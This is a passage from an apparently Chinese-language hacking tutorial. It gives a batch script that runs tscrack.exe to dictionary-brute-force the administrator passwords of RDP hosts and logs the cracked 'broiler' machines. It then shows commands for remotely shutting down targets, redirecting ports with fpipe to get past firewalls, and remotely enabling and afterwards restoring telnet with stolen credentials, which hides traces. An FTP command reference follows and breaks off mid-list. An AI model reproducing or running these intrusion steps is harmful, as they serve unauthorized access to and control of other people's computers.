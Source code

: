```
　　@if not exist tscrack.exe goto noscan
　　@tscrack %1 -l administrator -w pass.dic >>rouji.txt
　　:noscan
　　@echo tscrack.exe no find or scan faild
```
(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)
　　hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。
### 其它
####  Shutdown.exe
　　Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）
　　`fpipe.exe` (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）
　　`fpipe -l 80 -s 1029 -r 80` 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息
　　`Fpipe -l 23 -s 88 -r 23` 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。
#### OpenTelnet.exe (远程开启telnet工具)
　　`opentelnet.exe IP 帐号　密码　ntlm认证方式　Telnet端口` （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务后，就可用telnet ip 连接上对方。
　　NTLM认证方式：0：不使用NTLM身份验证；1：先尝试NTLM身份验证，如果失败，再使用用户名和密码；2：只使用NTLM身份验证。
##### ResumeTelnet.exe (OpenTelnet附带的另一个工具)
　　`resumetelnet.exe IP　帐号　密码 `用Telnet连接完对方后，就用这个命令将对方的Telnet设置还原，并同时关闭Telnet服务。
##### FTP命令详解
FTP命令是Internet用户使用最频繁的命令之一，熟悉并灵活应用FTP的内部命令，可以大大方便使用者，并收到事半功倍之效。如果你想学习使用进行后台FTP下载，那么就必须学习FTP指令。
FTP的命令行格式为：
`ftp -v -d -i -n -g [主机名]` ，其中
　　`-v` 显示远程服务器的所有响应信息
　　`-n` 限制ftp的自动登录，即不使用；.n etrc文件；
　　`-d` 使用调试方式；
　　`-g` 取消全局文件名。
FTP使用的内部命令如下(中括号表示可选项):
1. `![cmd[args]]`：在本地机中执行交互shell，exit回到ftp环境，如：`!ls*.zip`
2. `$ macro-ame[args]`： 执行宏定义macro-name。
3. `account[password]`： 提供登录远程系统成功后访问系统资源所需的补充口令。
4. `append local-file[remote-file]`：将本地文件追加到远程系统主机，若未指定远程系统文件名，则使用本地文件名。
5. `ascii`：使用ascii类型传输方式。
6. `bell`：每个命令执行完毕后计算机响铃一次。
7. `bin`：使用二进制文件传输方式。
8. `bye`：退出ftp会话过程。
9. `case`：在使用mget时，将远程主机文件名中的大写转为小写字母。
5. `cd` remote-dir：进入远程主机目录。
11. `cdup`：进入远程主机目录的父目录。
12. `chmod mode file-name`：将远程主机文件file-name的存取方式设置为mode，如：`chmod 777 a.out`。
13. `close`：中断与远程服务器的ftp会话(与open对应)。
14. `cr`：使用asscii方式传输文件时，将回车换行转换为回行。
15. `delete remote-file`：删除远程主机文件。
16. `debug[debug-value]`：设置调试方式， 显示发送至远程主机的每条命令，如：deb up 3，若设为0，表示取消debug。
17. `dir[remote-dir][local-file]`：显示远程主机目录，并将结果存入本地文件。
18. `disconnection`：同close。
19. `form format`：将文件传输方式设置为format，缺省为file方式。
20. `get remote-file[local-file]`： 将远程主机的文件remote-file传至本地硬盘的local-file。
21. `glob`：设置mdelete，mget，mput的文件名扩展，缺省时不扩展文件名，同命令行的-g参数。
22. `hash`：每传输1024字节，显示一个hash符号(#)。
23. `help[cmd]`：显示ftp内部命令cmd的帮助信息，如：`help get`。
24. `idle[seconds]`：将远程服务器的休眠计时器设为[seconds]秒。
25. `image`：设置二进制传输方式(同binary)。
26. `lcd[dir]`：将本地工作目录切换至dir。
27.  `ls[remote-dir][local-file]`：显示远程目录remote-dir， 并存入本地文件local-file。
28. `macdef macro-name`：定义一个宏，遇到macdef下的空行时，宏定义结束。
29. `mdelete[remote-file]`：删除远程主机文件。
30. `mdir remote-files local-file`：与dir类似，但可指定多个远程文件，如 ：`mdir *.o.*.zipoutfile `。
31. `mget remote-files`：传输多个远程文件。
